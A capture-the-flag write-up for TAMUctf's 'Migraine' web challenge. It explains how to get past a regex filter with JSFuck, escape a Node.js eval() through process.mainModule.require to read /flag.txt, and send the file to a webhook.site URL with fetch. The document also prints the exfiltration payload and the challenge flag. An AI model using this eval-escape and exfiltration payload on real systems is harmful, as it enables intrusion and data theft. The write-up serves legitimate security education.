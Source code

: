 # Migraine
Category: Web

## Description
Author: `RougeGuardian`, `Mr. Blade`

This challenge gave me a migraine to develop, hopefully it doesn't do the same to you.

```
To: Acme Production Team
From: Acme Development Team
Yeah we're 3 weeks behind schedule and we need to push this to production. As for the issue on section 3, yeah we couldn't figure out how to get output from eval so we will just have to roll with it. And for the security team, please assure them that we filter out all numbers and letters in the first round so no one can write malicious things. I think we're good to go!
```

NOTE: Changes will no longer be persistent between connections.

[http://migraine.tamuctf.com](http://migraine.tamuctf.com)

Attachments: [migraine.zip](attachments/migraine.zip)

## Write-up
- Clicking "Run" triggers the `submitCode()` function, sending a POST request to an endpoint with user code in the `src` body parameter.
- The backend validates the code using a regex and evaluates it if the checks pass.
- The challenge involves bypassing the regex and performing Remote Code Execution (RCE) via `eval()`.
- `JSFuck`, an esoteric JavaScript subset, can bypass the regex due to its unique character requirements.
- The `eval()` call is direct and uses the local scope, hindering direct access to `require()` and preventing simple module imports like `fs`.
- However, `eval()` is a function property of the global object and can access `process`, which has references to `require()` through `mainModule`.
- Accessing `require()` via `eval()` and `process.mainModule` enables the use of the `fs` module to read the flag file.
- A payload can be constructed to read the flag and send it via a `fetch` request (also conveniently found in the global object) to a designated webhook.
- Example payload: `fetch('https://webhook.site/35e3671b-6a1c-45c7-be30-0b9bc8d2ab6c/?flag=' + process.mainModule.require('fs').readFileSync('/flag.txt', 'utf8'));`.

Flag: `gigem{JS_1s_5up3r_w4cky_4nd_w3ird}`
